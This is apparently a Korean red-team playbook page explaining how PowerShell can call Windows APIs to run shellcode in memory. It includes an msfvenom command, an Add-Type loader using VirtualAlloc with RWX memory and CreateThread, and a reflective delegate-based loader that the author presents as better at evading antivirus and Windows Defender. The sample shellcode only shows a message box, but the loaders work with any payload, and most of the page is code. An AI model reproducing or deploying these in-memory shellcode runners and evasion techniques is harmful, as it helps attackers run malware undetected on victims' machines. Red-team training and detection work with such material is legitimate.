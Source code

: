 # 윈도우 API 실행

파워쉘에서는 윈도우 API를 실행할 수 있는 총 세 가지 방법이 있다.&#x20;

* Add-Type&#x20;
* .NET 어셈블리가 사용하는 윈도우 API를 찾아 실행하는 방법&#x20;
* 윈도우 API의 메모리상 주소를 알아내고, 함수 포인터를 만든 뒤, 다이내믹 Assembly, Module, Type, Method 과 Delegate를 이용해 이 함수 포인터로 윈도우 API를 실행하는 방법&#x20;

이 페이지에서는 1번과 3번에 대해서 알아본다.&#x20;

### Add-Type&#x20;

Add-Type 은 마이크로소프트사에서 공식적으로 지원하는 파워쉘에서 윈도우 API를 사용하는 방법 중 하나다. 더 정확하게 말하자면 파워쉘에서 C# 클래스를 작성한 뒤 메모리상에서 컴파일 하고 실행하는 함수 중 하나다.&#x20;

먼저 PoC 쉘코드로 사용할 쉘코드를 msfvenom을 이용해 제작한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="stage0 shellcode" title="choi redteam playbook" -f ps1
```

다음은 파워쉘에서 윈도우 API를 이용해 MessageBox 쉘코드를 실행하는 PoC다.&#x20;

<details>

<summary>Invoke-Addtype.ps1</summary>

```powershell
$csharpCode = @"

using System;
using System.Runtime.InteropServices;

public class winAPIClass { 

    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

    [DllImport("kernel32", CharSet = CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@

Add-Type $csharpCode

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0

# Page commit | reserve, RWX 
$pAlloc = [winAPIClass]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [winAPIClass]::CreateThread(0,0,$pAlloc,0,0,0)        
```

</details>

![](<../../.gitbook/assets/image (11) (1).png>)

#### 대응 방안&#x20;

Add-Type이 실행될 때 C# 코드가 메모리상에서 컴파일 된다고 위에서 얘기했었다. 더 자세하게 얘기하자면 `csc.exe` 를 이용해 메모리상에서 C# 코드를 컴파일 하지만, 그 와중에 임시 파일을 디스크위에 작성한다.&#x20;

![](<../../.gitbook/assets/image (2).png>)

![](<../../.gitbook/assets/image (6).png>)

2022년도 기준 `Add-Type` 를 이용한 파워쉘에서의 C# 코드 및 윈도우 API 실행은 유명한 TTP라 왠만한 AV/EDR 솔루션들 및 윈도우 디펜더는 이를 기본적으로 막는다.&#x20;

### Dynamic Method&#x20;

다음 코드들은 다음 두 개의 레퍼런스 - [Matt Graeber](https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/), [mez0](https://mez0.cc/posts/cobaltstrike-powershell-exec/), [DepthSecurity](https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs) 라는 분들의 코드 참고했다. 먼저 `LookUpFunction` 이라는 함수로 현 .NET AppDomain에 있는 어셈블리들 중 `System.dll` 닷넷 어셈블리를 찾고, 그 중 `UnsafeNativeMethod` 를 찾는다. 그 뒤, `GetMethods()` 함수를 통해 닷넷 어셈블리에서 `GetProcAddress` 와 `GetModuleHandle` 윈도우API를 찾는다. 그 뒤, 이들을 이용해 파라미터로 받아온 ModuleName과 FunctionName을 찾는다.&#x20;

```powershell
# Unmanaged DLL 이름과 winAPI함수 이름을 입력값으로 받고, 함수 포인터를 반환함. 
function LookUpFunc {
    Param($module, $funcName)
    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))
    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}
```

&#x20;결국 `$fPointer = LookUpfunction Kernel32.dll VirtualAlloc` 과 같은 파워쉘 코드를 이용하면 `VirtualAlloc` 의 위치를 가르키는 함수 포인터를 생성할 수 있게 된다.&#x20;

함수 포인터가 있다고 해서 그것을 무작정 사용할 수는 없다. 함수 포인터가 가르키는 메모리는 어떻게 읽어야하는가? 몇개의 argument 가 있고, 어떤 타입의 argument 들이 있는가? 리턴하는 데이터 타입은? 에 대한 설명을 기반으로 함수 포인터를 실행해야 하는데, C#과 파워쉘에서는 이를 `Delegate` 을 통해서 해결한다.&#x20;

다음은 파워쉘에서 Delegate 을 만들고 그것을 기반으로 위에서 받아온 함수 포인터를 실행하는 코드다. 다이내믹 어셈블리, 모듈, 타입, 프로토타입, 매써드 등을 만든 뒤 DelegateType을 반환한다.&#x20;

```powershell
# 함수 시그니쳐와 반환값을 입력값으로 받고, DelegateType을 반환함. 
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}
```

이 `getDelegateType` 함수는 다음과 같이 쓴다.&#x20;

```powershell
$pVirtualAlloc = LookUpFunc "kernel32.dll" "VirtualAlloc" 
$dtVirtualAlloc = getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$VirtualAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($pVitualAlloc, $dtVirtualAlloc)
```

이를 기반으로 위 `Add-Type` 예시에서 만들었던 메시지 박스 쉘코드를 실행하는 파워쉘 페이로드를 만들면 다음과 같다.&#x20;

```powershell
# All credit to https://mez0.cc/posts/cobaltstrike-powershell-exec/
function LookUpFunc {
    Param($module, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')

    $GetProcAddress = $assem.GetMethod('GetProcAddress', [Type[]] @('System.Runtime.InteropServices.HandleRef', 'string'))

    return $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef](New-Object System.Runtime.InteropServices.HandleRef((New-Object IntPtr), ($assem.GetMethod('GetModuleHandle')).Invoke($null, @($module)))), $funcName))
}

# All credit to https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs
function getDelegateType{
    Param (
        [Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
        [Parameter(Position = 1)] [Type] $delType = [Void]
    )
    $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')),[System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule',$false).DefineType('MyDelegateType','Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime,Managed')
    $type.DefineMethod('Invoke','Public, HideBySig, NewSlot, Virtual',$delType, $func).SetImplementationFlags('Runtime,Managed')
    return $type.CreateType()
}

[Byte[]] $buf = 0xfc,0x48,0x81,0xe4,0xf0,0xff,0xff,0xff,0xe8,0xd0,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x3e,0x48,0x8b,0x52,0x18,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x48,0x8b,0x72,0x50,0x3e,0x48,0xf,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x2,0x2c,0x20,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0xe2,0xed,0x52,0x41,0x51,0x3e,0x48,0x8b,0x52,0x20,0x3e,0x8b,0x42,0x3c,0x48,0x1,0xd0,0x3e,0x8b,0x80,0x88,0x0,0x0,0x0,0x48,0x85,0xc0,0x74,0x6f,0x48,0x1,0xd0,0x50,0x3e,0x8b,0x48,0x18,0x3e,0x44,0x8b,0x40,0x20,0x49,0x1,0xd0,0xe3,0x5c,0x48,0xff,0xc9,0x3e,0x41,0x8b,0x34,0x88,0x48,0x1,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0xd,0x41,0x1,0xc1,0x38,0xe0,0x75,0xf1,0x3e,0x4c,0x3,0x4c,0x24,0x8,0x45,0x39,0xd1,0x75,0xd6,0x58,0x3e,0x44,0x8b,0x40,0x24,0x49,0x1,0xd0,0x66,0x3e,0x41,0x8b,0xc,0x48,0x3e,0x44,0x8b,0x40,0x1c,0x49,0x1,0xd0,0x3e,0x41,0x8b,0x4,0x88,0x48,0x1,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x3e,0x48,0x8b,0x12,0xe9,0x49,0xff,0xff,0xff,0x5d,0x49,0xc7,0xc1,0x0,0x0,0x0,0x0,0x3e,0x48,0x8d,0x95,0xfe,0x0,0x0,0x0,0x3e,0x4c,0x8d,0x85,0xf,0x1,0x0,0x0,0x48,0x31,0xc9,0x41,0xba,0x45,0x83,0x56,0x7,0xff,0xd5,0x48,0x31,0xc9,0x41,0xba,0xf0,0xb5,0xa2,0x56,0xff,0xd5,0x73,0x74,0x61,0x67,0x65,0x30,0x20,0x73,0x68,0x65,0x6c,0x6c,0x63,0x6f,0x64,0x65,0x0,0x63,0x68,0x6f,0x69,0x20,0x72,0x65,0x64,0x74,0x65,0x61,0x6d,0x20,0x70,0x6c,0x61,0x79,0x62,0x6f,0x6f,0x6b,0x0
$pAlloc = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll VirtualAlloc), (getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $pAlloc, $buf.Length)
$pThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookUpFunc Kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero, 0, $pAlloc, [IntPtr]::Zero, 0, [IntPtr]::Zero)
```

위 Dynamic Method 방법의 경우 C# 이 컴파일이 되는 것이 아니기 때문에 디스크상의 임시 파일이 쓰여질 일도 없다. 따라서 기본적인 AV나 디펜더를 우회하는데 좀 더 유리하다.&#x20;

### 레퍼런스&#x20;

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-1/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-2/" %}

{% embed url="https://devblogs.microsoft.com/scripting/use-powershell-to-interact-with-the-windows-api-part-3/" %}

{% embed url="https://mez0.cc/posts/cobaltstrike-powershell-exec/" %}

{% embed url="https://depthsecurity.com/blog/obfuscating-malicious-macro-enabled-word-docs" %}
